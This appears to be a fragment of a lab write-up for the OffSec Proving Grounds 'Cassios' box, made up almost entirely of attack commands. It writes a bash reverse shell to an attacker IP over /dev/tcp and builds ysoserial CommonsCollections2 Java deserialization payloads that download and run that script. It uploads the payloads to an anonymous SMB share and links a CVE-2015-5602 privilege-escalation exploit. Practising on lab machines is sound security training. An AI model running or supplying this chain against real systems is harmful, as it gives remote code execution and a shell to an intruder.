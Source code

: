 

```
echo 'bash -i >& /dev/tcp/192.168.49.129/80 0>&1' > shell.sh ; chmod +x shell.sh
```

```
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'wget http://192.168.49.129/shell.sh -O /tmp/shell.sh' > recycler.ser
```

```
smbclient --no-pass -N "\\\\192.168.129.116\\Samantha Konstan" -p 445
put /home/kali/Documents/OffSecPG/Cassios/recycler.ser recycler.ser
```

```
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'bash /tmp/shell.sh' > recycler.ser
```

```
smbclient --no-pass -N "\\\\192.168.129.116\\Samantha Konstan" -p 445
put /home/kali/Documents/OffSecPG/Cassios/recycler.ser recycler.ser
```

[CVE-2015-5602](https://github.com/t0kx/privesc-CVE-2015-5602/blob/master/exploit.sh)

